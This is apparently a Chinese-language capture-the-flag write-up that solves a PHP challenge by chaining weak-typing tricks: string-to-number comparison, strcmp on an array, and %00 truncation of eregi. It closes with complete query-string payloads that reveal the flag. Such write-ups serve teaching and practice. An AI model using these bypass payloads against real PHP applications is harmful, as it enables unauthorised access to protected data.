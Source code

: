 # Challenge
```php
<?php
show_source(__FILE__);
$v1=0;$v2=0;$v3=0;
$a=(array)json_decode(@$_GET['foo']);
if(is_array($a)){
   is_numeric(@$a["bar1"])?die("nope"):NULL;
   if(@$a["bar1"]){
	   ($a["bar1"]>2016)?$v1=1:NULL;
   }
   if(is_array(@$a["bar2"])){
	   if(count($a["bar2"])!==5 OR !is_array($a["bar2"][0])) die("nope");
	   $pos = array_search("nudt", $a["a2"]);
	   $pos===false?die("nope"):NULL;
	   foreach($a["bar2"] as $key=>$val){
		   $val==="nudt"?die("nope"):NULL;
	   }
	   $v2=1;
   }
}
$c=@$_GET['cat'];
$d=@$_GET['dog'];
if(@$c[1]){
   if(!strcmp($c[1],$d) && $c[1]!==$d){
	   eregi("3|1|c",$d.$c[0])?die("nope"):NULL;
	   strpos(($c[0].$d), "htctf2016")?$v3=1:NULL;
   }
}
if($v1 && $v2 && $v3){
   include "flag.php";
   echo $flag;
}
?>
```

# Solution
## v1
```php
$a=(array)json_decode(@$_GET['foo']);
if(is_array($a)){
    is_numeric(@$a["bar1"])?die("nope"):NULL;
    if(@$a["bar1"]){
        ($a["bar1"]>2016)?$v1=1:NULL;
    }
    ....
}
```
传入的foo，经过一次json_decode，然后转换成array。然后判断 `$a["bar1"]` 是否满足 is_numeric，若满足则die掉。接下来又判断 `$a["bar1"]` 是否大于 2016 。

利用php弱类型特性，可以设置
```
$a["bar1"] = 2017a
```

这样is_numeric时会判断其为字符串而不是数字，而在与2016的比较中，会直接转换成2017，满足大于2016。这样 v1 就被设置为 1 了。

## v2
```php
if(is_array(@$a["bar2"])){
	if(count($a["bar2"])!==5 OR !is_array($a["bar2"][0])) die("nope");
	$pos = array_search("nudt", $a["a2"]);
	$pos===false?die("nope"):NULL;
	foreach($a["bar2"] as $key=>$val){
		$val==="nudt"?die("nope"):NULL;
	}
	$v2=1;
}
```

接下来，要求`$a["bar2"]`是个数组，其中元素的个数为5个（count($a["bar2"])!==5），同时要求`$a["bar2"][0]`是数组。所以我们设置:
```
$a["bar2"] = [[],2,3,4,5]
```

对于 `$pos = array_search("nudt", $a["a2"]);`，它搜索字符串“nudt”在$a["a2"]中的位置。若没有找到，array_search返回false，会通过严格比较导致die掉。所以这里要设置：
```
$a["a2"] = “nudt”
```
注意这里因为用了`$pos===false?`的严格比较，所以0不`===`false。

之后就能设置 v2 = 1

结合$a是由json_decode得来，所以第一个payload为：
```
foo={"bar1":"2017a","bar2":[[],2,3,4,5],"a2":["nudt"]}
```

## v3
```php
$c=@$_GET['cat'];
$d=@$_GET['dog'];
if(@$c[1]){
   if(!strcmp($c[1],$d) && $c[1]!==$d){
	   eregi("3|1|c",$d.$c[0])?die("nope"):NULL;
	   strpos(($c[0].$d), "htctf2016")?$v3=1:NULL;
   }
}
if($v1 && $v2 && $v3){
   include "flag.php";
   echo $flag;
}
```

先会用strcmp进行比较，利用数组array和字符串进行strcmp比较会返回null，而且数组array也不会等于字符串，我们可以设置cat[1]为一个数组。

接下来用eregi对拼接后的字符串`$d.$c[0]`进行正则匹配，若匹配到则die掉。而下一步又要求拼接字符串`$c[0].$d`中要有字符串“htctf2016”。这里利用%00对eregi的截断功能，则在正则匹配eregi时在开头时就匹配结束掉。

`strpos(($c[0].$d), "htctf2016")`中，还要求“htctf2016”不能出现在开头。

所以设置：
```
$d = %00 即 dog=%00

$c[0]  = "ahtctf2016"
```

所以综上所述，构造最后的payload如下：
```
?foo={"bar1":"2017e","bar2":[[],2,3,4,5],"a2":["nudt"]}&cat[0]=ahtctf2016&cat[1][]=&dog=%00
```

```
?foo={"bar1":"2017a","bar2":[[],2,3,4,5]}&cat[0]=ahtctf2016&cat[1][]=&dog=%00
```



# Refference

+ [chybeta : php是最好的语言](https://chybeta.github.io/2017/08/18/XNUCA-2017-Web%E4%B8%93%E9%A2%98%E8%B5%9B%E5%89%8D%E6%8C%87%E5%AF%BC-php%E6%98%AF%E6%9C%80%E5%A5%BD%E7%9A%84%E8%AF%AD%E8%A8%80-writeup/)
